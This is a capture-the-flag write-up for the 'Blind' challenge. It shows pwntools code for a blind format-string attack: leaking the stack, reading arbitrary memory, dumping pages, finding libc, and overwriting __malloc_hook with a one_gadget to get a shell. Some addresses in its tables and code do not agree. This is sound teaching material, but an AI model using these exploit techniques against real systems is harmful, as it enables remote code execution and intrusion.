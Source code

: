 !![desc](../../desc.png)

In this challenge, we were not given a copy of the executable, hence the title "Blind," which means we will be doing blind binary exploitation.

After connecting to the service using `netcat`, we are greeted with the following prompt:
!![Screenshot_20241014_134904](../../Screenshot_20241014_134904.png)

Any input entered is echoed back as output:
!![Screenshot_20241014_134952](../../Screenshot_20241014_134952.png)

Since our input is being echoed back at us, I suspected the program might be vulnerable to a format string attack, and sure enough, that was the case. From the leaked value, it's also obvious that the binary is a 64-bit executable.
!![Screenshot_20241014_135054](../../Screenshot_20241014_135054.png)

This is good news because we can perform arbitrary reads and writes using this vulnerability. We can also leak the values in stack using this vulnerability, which could potentially give us more insight into the memory layout of the program.

To start, I wrote a Python script using `pwntools` to leak stack values and determine their respective offsets.
```python
def leak_stack(io, offset):
	payload = f"AA%{offset}$lpBB"
	send_input(io, payload)

	io.recvuntil(b'AA')
	leak = io.recvuntil(b'BB')[:-2].decode()
	
	log.info(f"Leaked at offset {offset}: {leak}")
	return leak

io = conn()

i = 1
while i < 256:
    try:
        leak_stack(io, i)
        i += 1
    except EOFError as e:
        io.close()
        io = conn()
```

Using this code, I discovered something interesting:
!![Screenshot_20241014_140043](../../Screenshot_20241014_140043.png)

The values leaked at offsets 155 and 157 seem to refer to code in executable memory. This also indicates that there is a memory page starting at `0x400000`, which suggests that the binary is not PIE (Position Independent Executable) because `0x400000` is a common base address for 64-bit non-PIE executables. To gather more information, I decided to leak the memory page, which is possible with the format string vulnerability.

Before proceeding, I wanted to check for other memory pages to make sure nothing was missed. I used the following code:
```python
 def read_at(io, address):
	payload = b'%7$s____'
	payload += p64(address)
	send_input(io, payload)

	leak = io.recvuntil(b'____')[:-4] + b'\x00'

	log.info(f"Leaked at {hex(address)}: {leak}")
	return leak


def check_segment(address):
	log.info(f"Checking segment: {hex(address)}")
	io = conn()
	try:
		read_at(io, address)
		io.close()
		log.success(f"Memory segment {hex(address)} exists!")
		return True
	except EOFError:
		io.close()
		log.warn(f"Memory segment {hex(address)} does not exist.")
		return False
```

And I got the following results:
!![Screenshot_20241014_141212](../../Screenshot_20241014_141212.png)

I then dumped all the contents of each memory page using the following code and used multithreading to dump multiple pages at the same time to speed up the process:
```python
def leak_segment(address, size, output_file):
	log.info(f"Leaking memory segment: {hex(address)}")
	cur_address = address
	end_address = address + size

	data = b''

	io = conn()
	while cur_address < end_address:
		try:
			chunk = read_at(io, cur_address)
			cur_address += len(chunk)
			data += chunk
		except EOFError:
			io.close()
			io = conn()

	with open(output_file, "wb") as FILE:
		FILE.write(data)

	log.success(f"Wrote memory segment, {hex(address)}, to {output_file}.")
	return data


MEMORY_SEGMENTS = [
	0x3fc000,
	0x3fe000,
	0x400000,
	0x600000,       
	0x601000,       
]

import concurrent.futures

def leak_segment_wrapper(segment):
	output_file = hex(segment) + ".dump"
	leak_segment(segment, 0x1000, output_file)

with concurrent.futures.ThreadPoolExecutor() as executor:
	futures = [executor.submit(leak_segment_wrapper, segment) for segment in MEMORY_SEGMENTS]

	for future in concurrent.futures.as_completed(futures):
		try:
			result = future.result()
		except Exception as e:
			print(f"An error occurred: {e}")
```

At this point, I have a copy of all the memory pages we discovered earlier:
!![Screenshot_20241014_141604](../../Screenshot_20241014_141604.png)

Now that we have a copy of the executable page, `0x400000.dump`, I analyzed it using Cutter, and sure enough, it contains the code for the main loop of the program:
!![Screenshot_20241014_143449](../../Screenshot_20241014_143449.png)

I suspected that this is the main loop because we can see the string of the prompt being used here at `0x004006ee`, and there is a `jmp` instruction at `0x00400751` at loops back to `0x00400713` without any checks or condition.

Using this, we can carefully analyze the program and basically "guess" which libc functions are being called here, and I came up with the following:
!![Screenshot_20241014_144024](../../Screenshot_20241014_144024.png)

We can then check which of the PLT entries these point to by looking at the address pointed to by the call function:
!![Screenshot_20241014_144209](../../Screenshot_20241014_144209.png)

This then gives us the address of the GOT entries for each of these functions, resulting to the following mapping:

| Function | PLT Entry  | GOT Entry  |
| -------- | ---------- | ---------- |
| `puts`   | `0x400550` | `0x600fc8` |
| `printf` | `0x400580` | `0x600fe0` |
| `read`   | `0x400580` | `0x600fe8` |
We can then use the dump we got from the page, `0x600000` - `0x601000`, to leak the libc addresses of these functions:
!![Screenshot_20241014_145210](../../Screenshot_20241014_145210.png)

| Function | PLT Entry  | GOT Entry  | libc Address     |
| -------- | ---------- | ---------- | ---------------- |
| `puts`   | `0x400550` | `0x600fc8` | `0x7fa10d1d5970` |
| `printf` | `0x400580` | `0x600fe0` | `0x7fa10d1b9e40` |
| `read`   | `0x400580` | `0x600fe8` | `0x7fa10d265020` |

Using these addresses, we can use a [libc database](https://libc.rip/) to finally determine the libc version that the binary is using:
!![Screenshot_20241014_145547](../../Screenshot_20241014_145547.png)

In my case, I decided to use the first result and it worked, but if it happened that it didn't work, I could easily just download the second one.

So at this point, we now know the libc version used by the binary as well as the address of the GOT entries. Now it's time for the final exploitation phase.

Since we have a format string vulnerability that alllows us to write any value to an arbitrary address, we essentially have what we call a [Write What Where 2 Exec](https://book.hacktricks.xyz/binary-exploitation/arbitrary-write-2-exec) or "WWW2Exec" in short. In my case, I used [Malloc Hook](https://book.hacktricks.xyz/binary-exploitation/arbitrary-write-2-exec/aw2exec-__malloc_hook) to get a shell since the libc version is pre-2.34, not to mention, the easiest. In short, for this attack, we have to overwrite the variable `__malloc_hook` found in libc with the address of a [One Gadget](https://book.hacktricks.xyz/binary-exploitation/rop-return-oriented-programing/ret2lib/one-gadget) 

So in summary, our final exploit will look like this:
1. Compute the libc address by leaking the GOT entry of any of the functions leaked above, in my case I used the GOT entry `printf()`
2. Compute the address of the `__malloc_hook` and the `one_gadget`
3. Perform a format string attack to write the address of the `one_gadget` at the address of the `__malloc_hook`
4. Send input, `%10000$c` to trigger malloc using printf.
5. Get the flag using the shell.

In my case, the final exploit code looked like this:
```python
io = conn()
PRINTF_FUNC = u64(read_at(io, 0x600fd0).ljust(8, b'\x00'))

libc.address = PRINTF_FUNC - libc.sym['printf']
	
log.success(f"Leaked libc address: {hex(libc.address)}")

MALLOC_HOOK = libc.sym["__malloc_hook"]
ONE_GADGET = libc.address + 0x10a2fc

writes = {
	MALLOC_HOOK: ONE_GADGET
}

payload = fmtstr_payload(6, writes)
send_input(io, payload)

send_input(io, "%10000$c")

io.interactive()
```

!![Screenshot_20241014_151836](../../Screenshot_20241014_151836.png)

Flag: `ironCTF{Haha_You_Found_me_b1ind}`
